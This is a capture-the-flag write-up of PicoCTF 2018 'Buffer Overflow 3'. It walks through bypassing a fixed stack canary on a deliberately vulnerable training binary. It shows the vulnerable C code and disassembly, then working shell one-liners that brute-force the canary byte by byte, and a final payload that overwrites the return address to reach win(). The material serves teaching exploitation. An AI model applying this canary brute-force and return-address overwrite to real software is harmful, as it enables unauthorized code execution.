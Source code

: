 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 3
description: Do you really think a little bird is going to stop us, after all that we've learned?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 3

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}).

## Spot the Bug

In addition to the unchecked write into `buf`, `vuln()` has an extra trick up it's sleeve this time around:

```c
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}
```

The program first sets the buffer `global_canary` by reading 4 bytes from a file (not shown). It then copies those 4 bytes into a buffer at the end of the stack (`canary`) at the beginning of the `vuln()` function, and **verifies that content of the buffer is still intact after reading an arbitrary number of bytes into `buf`**. This "mimics" code that the compiler would emit as stack protection, however instead of reading from a file, the compiler would use a new canary value at every execution.

## Strategy

The big advantage we have here is the `canary` value is exactly the same every time we execute the program. However, as far as we are concerned, it could be any random 4-byte (32 bit) value. That means there are 2^32 different possible values (0 through 4,294,967,296). The good news is if we can "guess" the right value, then the program will be unaware that we've overwritten the buffer, and we'll be free to overwrite anything else on the stack, including the return address of the function.

Rather than brute forcing over 4 billion possibilities, maybe theres something else we can use to our advantage?

The trick is that the program explicitly asks for number of bytes to copy into the buffer. Therefore, you don't have to guess the entire canary value in one shot, and you can instead only guess the first byte and leave the rest intact. Once you know the first byte, you can move on to the second byte and so on and so forth. You've essentially re-created the common movie trope where your spy-gadget cracks the code one digit at a time.

Since we can operate on a single byte at a time, we've reduced the search space from 4,294,967,296 guesses down to 4 guess of 256 values (4*256 = 1024). That's a big improvement.

## Background Info

First things first, let's verify the stack layout of the `vuln()` function, and see where `buf` is relative to `canary` and the return address of the function. Recall that you can use `objdump -M intel -S ./vuln` to view the assembly code of a binary.

```nasm
vuln:
  push   ebp ; preserve ebp
  mov    ebp,esp ; ebp points at preserved ebp value
  sub    esp,0x58

  mov    DWORD PTR [ebp-0xc],0x0 ; x = 0
  
  mov    eax,ds:0x804a058
  mov    DWORD PTR [ebp-0x10],eax ; memcpy(canary,global_canary,CANARY_SIZE);

  ; ...
  mov    eax,DWORD PTR [ebp-0x54]
  sub    esp,0x4
  push   eax  ; count
  lea    eax,[ebp-0x30] ; buf
  push   eax
  push   0x0  ;  0
  call   80484f0 <read@plt> ; read(0,buf,count);
  add    esp,0x10
  ; ...
```

Looking at the above assembly code, we can deduce that `canary` is at `ebp-0x10` and `buf` is at `ebp-0x30`. Since `buf` is 32 (`0x20`) bytes, we see that canary immediately follows `buf` in memory. After that, there are 12 bytes of padding before we get to the preserved value of `ebp` on the stack (4 bytes), and after that is the return address.

| lower addresses | &rArr; | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | :---: | --- |
| `buf[32]` | `canary[4]` | `padding[12]` | &lt;old ebp&gt; | &lt;*return address*&gt; |

If you write 33 characters to `buf`, then you would over-write the first byte of `canary`. After the 4 bytes of `canary` there are 16 more bytes before you start overwriting the return address. To completely overwrite the 4 bytes reserved for the return address, you would have to write a total of 56 bytes into `buf`.

There is one more interesting thing we should dig up, and that is the address of the `win()` function. When called, it will print out the flag.

```
$ readelf -s ./vuln | grep "win"
    72: 080486eb   117 FUNC    GLOBAL DEFAULT   14 win
```
{:.contains-term}

In terms of how you should brute-force the canary bytes, you could use `pwntools` to do this challenge, but sometimes when scripting like this I find **bash** easier to work with, particularly since our program will exit with an error code when we guess wrong, and exit normally when we guess right. This is how I would approach it:

```
$ for i in {0..255}; do python -c "print \"33\\n\" + \"U\"*32 + chr($i)" | ./vuln >/dev/null && echo "$i"; done
```
{:.contains-term}

When run, the above script will print out the decimal equivalent for the first byte of `canary` (it tries all 256 possibilities, but only `echo`s the one value that doesn't return an error code). Once you know the first byte, you add " + chr(`value`) +" into the string (after the `U`s) and increment byte byte count (33 &rArr; 34). Repeat until you know the correct value of all 4 bytes of the canary.

The challenge is located at `/problems/buffer-overflow-3_4_931796dc4e43db0865e15fa60eb55b9e`. Head there now and see if you can exploit it to get the flag.

## Exploitation

First up, you need to crack the value for the canary:
```
$ for i in {0..255}; do python -c "print \"33\\n\" + \"U\"*32 + chr($i)" | ./vuln >/dev/null && echo "$i"; done
60
$ for i in {0..255}; do python -c "print \"34\\n\" + \"U\"*32 + chr(60) + chr($i)" | ./vuln >/dev/null && echo "$i"; done
122
$ for i in {0..255}; do python -c "print \"35\\n\" + \"U\"*32 + chr(60) + chr(122) + chr($i)" | ./vuln >/dev/null && echo "$i"; done
79
$ for i in {0..255}; do python -c "print \"36\\n\" + \"U\"*32 + chr(60) + chr(122) + chr(79) + chr($i)" | ./vuln >/dev/null && echo "$i"; done
37
```
{:.contains-term}

After some quick scripting and we've determined the canary to be the bytes `[60,122,79,37]`. Recall that to exploit this program we will need to write a total of 56 bytes into `buf`: 32 bytes, the above 4 byte `canary` value, 16 bytes of padding, and a 4 byte return address (`0x080486eb` written in little-endian form).

```
$ python -c "print \"56\\n\" + \"U\"*32 + chr(60) + chr(122) + chr(79) + chr(37) + \"U\"*16 + \"\\xeb\\x86\\x04\\x08\"" | ./vuln
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
picoCTF{===REDACTED===}
Segmentation fault (core dumped)
```
{:.contains-term}

Great Job! Hopefully you've learned a little something about stack canaries and how they work. Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.
